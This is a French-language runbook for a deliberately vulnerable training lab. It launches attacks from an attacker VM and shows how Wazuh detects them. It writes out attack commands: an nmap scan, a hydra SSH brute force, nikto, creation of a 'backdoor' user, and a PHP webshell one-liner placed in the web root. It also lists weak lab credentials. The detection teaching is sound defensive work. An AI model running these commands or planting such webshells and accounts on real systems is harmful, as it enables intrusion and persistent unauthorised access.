







# Scénario de démonstration — détecter une attaque dans Wazuh

Runbook reproductible : on lance trois attaques depuis la machine attaquante externe, puis on
les visualise en temps réel dans le dashboard Wazuh. Captures d'écran prises sur ce lab.

```
[attacker] ──(Internet simulé)──► [router + Suricata] ──(LAN)──► pc1, pc2, wazuh
203.0.113.66                       203.0.113.1                    agents Wazuh
```

---

## 0. Prérequis

Le lab est démarré et les 4 agents sont actifs :

```bash
vagrant up                       # si ce n'est pas déjà fait
vagrant ssh wazuh -c "sudo /var/ossec/bin/agent_control -l"   # doit lister router, pc1, pc2 en Active
```

Ouvre le dashboard sur **https://localhost:8443** (accepte le certificat autosigné — sous
Chrome, clique dans la page d'avertissement et tape `thisisunsafe`).

- Utilisateur : **`admin`**
- Mot de passe : **`Passer123-`**



---

## 1. Lancer les attaques

Depuis la machine attaquante :

```bash
vagrant ssh attacker
```

```bash
# a) Scan de ports + détection de services
sudo nmap -sS -sV -p 22,80,443,3306,3389 203.0.113.1

# b) Déclencheur d'alerte réseau déterministe (réponse "uid=0(root)")
curl http://203.0.113.1/uid

# c) Brute force SSH — réussit (faille volontaire admin/admin123)
hydra -l admin -P ~/wordlist.txt -t 4 -f ssh://203.0.113.1

# d) Scan de vulnérabilités web
nikto -h http://203.0.113.1 -maxtime 45s
```

`hydra` doit afficher `login: admin   password: admin123` : l'intrusion a réussi.

---

## 2. Visualiser dans le dashboard

Menu **☰** (en haut à gauche) → **Threat Hunting**. En haut à droite, règle la période sur
**Last 1 hour**. Dans la barre de recherche, colle le filtre voulu puis **Refresh**.

### 2.1 Vue d'ensemble : toute l'activité de l'attaquant

Filtre :

```
data.srcip:203.0.113.66 or data.src_ip:203.0.113.66
```



On lit d'un coup d'œil : le **total d'alertes** liées à l'IP attaquante, le nombre d'**échecs
d'authentification**, la **connexion réussie**, le pic temporel, et surtout le donut
**MITRE ATT&CK** qui classe les techniques détectées (*Vulnerability Scanning*, *Brute Force*,
*Password Guessing*, *SSH*, *Exploit Public-Facing Application*…).

### 2.2 Le détail des alertes (onglet *Events*)

Passe sur l'onglet **Events** : chaque ligne est une alerte (horodatage, agent, description,
niveau, `rule.id`).



### 2.3 Scénario « brute force SSH »

Filtre :

```
agent.name:pc1 and rule.groups:authentication_failures
```

Clique l'icône 🔍 **Inspect document details** sur une ligne pour ouvrir le détail forensique :



Wazuh a extrait du log de pc1 : l'IP source (`data.srcip: 203.0.113.66`), le compte visé
(`data.dstuser: admin`), le log brut (`Failed password for admin from 203.0.113.66`), et la
règle **« sshd: brute force trying to get access to the system »**. Le champ `previous_output`
empile les tentatives échouées successives.

> Pour prouver que l'intrusion a **abouti**, filtre sur `agent.name:pc1 and rule.id:40112`
> (« connexion réussie après une série d'échecs » — le cœur d'un scénario de compromission).

### 2.4 Scénario « scan web (nikto) »

Filtre :

```
agent.name:pc1 and rule.groups:web
```



Les requêtes de nikto remontent en **« Web server 400 error code »** (règle 31101) et, quand
elles se répètent depuis la même IP, en **« Multiple web server 400 error codes from same
source ip »** (règle 31151, niveau 10).

### 2.5 Scénario « post-exploitation » (après l'intrusion)

Une fois le mot de passe cassé, l'attaquant se connecte en SSH et s'installe. Depuis la machine
attaquante :

```bash
vagrant ssh attacker
sshpass -p admin123 ssh -o StrictHostKeyChecking=no admin@203.0.113.1
# puis, sur pc1 (admin peut passer root — misconfig volontaire) :
sudo useradd -m backdoor                                    # persistance : nouveau compte
echo '<?php system($_GET[c]); ?>' | sudo tee /var/www/html/shell.php   # webshell
```

Filtre :

```
agent.name:pc1 and (rule.id:5902 or rule.id:5403 or rule.id:554)
```



On voit toute la **kill chain** sur pc1 : **escalade de privilèges** (*First time user executed
sudo*, règle 5403), **persistance** (*New user added to the system*, règle 5902, niveau 8), et
**dépôt de fichier** dans le web root (*File added to the system*, règle 554 via le FIM temps réel).

### 2.6 Scénario « dépôt de malware (EICAR) »

Toujours sur pc1, l'attaquant dépose le fichier de test antivirus standard **EICAR** :

```bash
printf 'X5O!P%%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' \
  | sudo tee /var/www/html/eicar.com
```

Filtre :

```
agent.name:pc1 and rule.id:554 and syscheck.path:*eicar*
```

Déplie l'alerte (🔍) :



Le **FIM en temps réel** (`decoder: syscheck_new_entry`) a capté la création du fichier :
`File '/var/www/html/eicar.com' added — Mode: realtime`. Avec une clé API VirusTotal
(intégration Wazuh optionnelle), ce hash serait en plus identifié comme malveillant.

---

## 3. Antisèche des filtres

| Scénario | Filtre (barre *Threat Hunting*) |
|---|---|
| Toute l'activité de l'attaquant | `data.srcip:203.0.113.66 or data.src_ip:203.0.113.66` |
| Scan réseau (Suricata) | `data.src_ip:203.0.113.66 and rule.groups:suricata` |
| Brute force SSH | `agent.name:pc1 and rule.groups:authentication_failures` |
| Intrusion réussie après brute force | `agent.name:pc1 and rule.id:40112` |
| Scan web | `agent.name:pc1 and rule.groups:web` |
| Post-exploitation (escalade + persistance) | `agent.name:pc1 and (rule.id:5902 or rule.id:5403 or rule.id:554)` |
| Dépôt de malware EICAR (FIM) | `agent.name:pc1 and rule.id:554 and syscheck.path:*eicar*` |

---

## 4. Vérification automatique

Pour prouver la chaîne attaque → détection sans l'interface, en une commande :

```bash
tests/check.sh demo
```

Le script lance les trois attaques et vérifie que chaque trace est bien indexée dans Wazuh
(tout en `OK` = la détection fonctionne).

---

*Infrastructure volontairement vulnérable, à usage pédagogique sur réseau isolé uniquement.*
